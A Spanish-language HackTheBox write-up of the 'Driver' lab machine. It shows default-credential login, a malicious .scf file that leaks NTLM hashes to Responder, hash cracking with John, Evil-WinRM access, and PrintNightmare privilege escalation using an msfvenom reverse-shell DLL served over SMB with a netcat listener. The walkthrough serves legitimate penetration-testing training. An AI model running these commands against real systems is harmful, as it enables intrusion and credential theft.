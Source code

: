 ```yaml
---
title: Driver
published: 2025-03-10
image: "./logo.png"
tags: [Easy, Password Guessing, SCF Malicious File PrintNightmare, OSCP, eJPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- Password Guessing
- SCF Malicious File
- Print Spooler Local Privilege Escalation (PrintNightmare) [CVE-2021-1675]

### Preparación

- OSCP (Escalada)
- eJPT

***

## Reconocimiento

Para empezar el escaneo, usaremos nmap:

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.106
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmrUI4W0trwBRUtc3VI55%2F1.png?alt=media&#x26;token=25a73e3e-2ba1-4734-b3ac-c1d876d3cc23" alt=""><figcaption></figcaption></figure>

Podemos ver el puerto **80**, **135**, **445** y **5985** abiertos, por lo que empezaremos por el servidor web.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F3aUSENOwQaJLAkay17Nd%2F2.png?alt=media&#x26;token=845ff116-84f1-4297-b582-b8cd6941b529" alt=""><figcaption></figcaption></figure>

### Web

De primeras nos pide credenciales pero usando **admin**:**admin** podemos entrar. Vamos a añadir el dominio que aparece al /etc/hosts.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FCDYgHwGzsevgV87JM5Wx%2F3.png?alt=media&#x26;token=321f768f-e27a-482b-8f54-adddb09b096e" alt=""><figcaption></figcaption></figure>

## Explotación

Por lo que podemos ver en este apartado podemos subir un **firmware** para que luego sea analizado por algún tester. Podemos probar a crear un archivo **.scf** (_Shell Command File_) con nuestra IP y nos pondremos a la escucha con el responder:

```sh
[Shell]  
Command=2  
IconFile=\\10.10.14.12\share\testing.ico  
[Taskbar]  
Command=ToggleDesktop
```

```bash
sudo responder -I tun0
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1bRlqXHXmKGZEKB3P4xC%2F4.png?alt=media&#x26;token=7e897c4c-47ef-426e-a378-ba8d1a6a70c5" alt=""><figcaption></figcaption></figure>

### John The Ripper

Obtenemos el hash de un usuario llamado **tony**, por lo que nos lo guardaremos. También vamos a intentar crackearla con **jhon the ripper**.

```sh
john tony_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FfH15lYMxhWAkLiRRjmto%2F5.png?alt=media&#x26;token=c92f91fb-4e78-482f-b796-8de145408914" alt=""><figcaption></figcaption></figure>

Vemos que la contraseña es **liltony**, vamos a intentar acceder a **WinRM** (puerto 5985) con **Evil-WinRM**.

```sh
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FXVIp8gXHZl8WfyAyh78i%2F6.png?alt=media&#x26;token=818caf67-5f7f-483e-b00f-d1b901f22bba" alt=""><figcaption></figcaption></figure>

Listo, vamos a ver la user flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnqHu51oC5X0kbNni2Lim%2F7.png?alt=media&#x26;token=4b586a04-5ae9-4703-b418-85101b0f5ed7" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para la escalación podemos usar **WinPEAS**, para poder ver los posibles vectores de escalación.

```powershell
upload /home/zelpro/Tools/winPEASx64.exe
```

```powershell
./winPEASx64.exe
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FlPk7voz8sHrNiawqunqQ%2F8.png?alt=media&#x26;token=1ca56216-0e71-486e-b43f-45e57f085492" alt=""><figcaption></figcaption></figure>

Podemos ver algo interesante, hay bastante información de **Ricoh Printers**. Buscando por exploits, he encontrado un exploit: [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675).

Para comenzar debermos crear una reverse shell con **msfvenom** con extensión **.dll**


```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f dll -o shell.dll
```

Ahora con **impacket** compartiremos este archivo con un servidor **smb**.

```sh
impacket-smbserver share .
```

Nos pondremos en escucha a la vez que ejecutamos el exploit.

```
nc -lvnp 443
```

```sh
python printnightmare.py driver/tony:liltony@10.10.11.106 '\\10.10.14.10\share\shell.dll'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FoJ5IR9qqChh7lpFhmH2M%2F9.png?alt=media&#x26;token=0916569f-60d5-4ece-a8df-2c80ee8a9404" alt=""><figcaption></figcaption></figure>

Y ya podríamos obtener la root flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FQ1p6iPvv1VFRkYxDykru%2F10.png?alt=media&#x26;token=8a928108-815d-4a6b-bb64-0055d2915104" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/387)

---